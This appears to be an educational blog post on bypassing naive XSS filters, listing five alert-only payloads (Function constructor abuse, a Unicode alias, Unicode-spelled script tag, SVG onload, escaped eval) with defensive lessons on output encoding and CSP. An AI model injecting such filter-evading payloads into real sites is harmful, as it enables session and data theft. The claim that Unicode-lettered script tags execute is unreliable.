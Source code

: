 ```yaml
---
title: "Advanced XSS Obfuscation with Unicode and Mathematical Operators"
layout: post
tags: [hacking, cybersecurity, xss, unicode, javascript, obfuscation, web-security, cross-site-scripting, payloads, filter-bypass, input-validation, secure-coding, nullsecurityx, web-application-security, offensive-security, penetration-testing
 ]
image: /assets/images/obfus.png

---
```


### Advanced XSS Obfuscation with Unicode and Mathematical Operators

Cross-Site Scripting (XSS) remains one of the most common vulnerabilities in web applications. While many developers rely on simple blacklists or input sanitization to block `<script>` tags and suspicious keywords, attackers often exploit Unicode, JavaScript quirks, and alternative syntaxes to bypass such defenses.

In this article, we’ll dive deep into **Unicode-powered and math-symbol obfuscated XSS payloads** that still execute in modern browsers, despite basic protections. This post serves as a research and educational demonstration, highlighting why secure coding practices and proper output encoding are essential.

---

## ⚡ Why Unicode in JavaScript?
JavaScript supports a vast range of Unicode characters, including **mathematical symbols, full-width forms, homoglyphs, and encoded escapes**. This allows attackers to craft payloads that look harmless or even unreadable, but still execute as valid code.

For example, the string `alert(1)` can be disguised using Unicode homoglyphs or mathematical operators, tricking weak filters.

---

## 🧪 Payload Examples

Below are different obfuscated XSS payloads that bypass naive filters. All will trigger a popup showing **NullSecurityX**.

### 1. Function Constructor Abuse
```javascript
[]["filter"]["constructor"]("alert('NullSecurityX')")()
```

Explanation:
- `[]["filter"]` accesses the `filter` function from an array prototype.
- Its `constructor` is the `Function` object.
- Passing a string to `Function()` dynamically executes JavaScript.

---

### 2. Unicode Variable Assignment
```javascript
𝓕 = Function; 𝓕("alert('NullSecurityX')")()
```

Explanation:
- `𝓕` is a Unicode character (Mathematical Script Capital F).
- Equivalent to using `var F = Function;`
- Calls `alert` without writing the keyword directly.

---

### 3. Obfuscated `<script>` Tag
```html
<𝓈𝒸𝓇𝒾𝓅𝓉>alert('NullSecurityX')</𝓈𝒸𝓇𝒾𝓅𝓉>
```

Explanation:
- `<script>` tag is spelled with **mathematical Unicode characters** that still render as valid script tags in some browsers.
- Many filters that only look for `<script>` in plain ASCII fail here.

---

### 4. SVG Event Handler
```html
<svg onload=alert('NullSecurityX')></svg>
```

Explanation:
- Even when `<script>` is blocked, many browsers execute **SVG event handlers**.
- Here, `onload` runs as soon as the SVG element is parsed.

---

### 5. Encoded Character Injection
```javascript
eval("\u0061lert('NullSecurityX')")
```

Explanation:
- `\u0061` is Unicode for the letter `a`, so it reconstructs `alert` at runtime.
- Simple signature-based detection for “alert(” won’t catch this.

---

## 🔒 Lessons Learned

1. **Blacklists are useless.** Attackers can use Unicode, obfuscation, and alternative JavaScript object properties to evade them.
2. **Always use output encoding.** Encode untrusted data before inserting it into HTML, JavaScript, or attributes.
3. **Use Content Security Policy (CSP).** Strong CSP rules can block inline scripts and mitigate XSS even if payloads are injected.
4. **Test with advanced payloads.** Security testing should include not only classic `<script>alert(1)</script>` but also obfuscated/unicode versions.

---

## 🎥 Demo Video

For a practical demonstration of these payloads in action, check out the video:

➡️ [Watch on YouTube](https://www.youtube.com/watch?v=9jF9y_TikeQ)

---

**Author:** NullSecurityX  
**Disclaimer:** This article is for **educational purposes only**. Do not attempt these payloads on systems you do not own or have explicit permission to test.

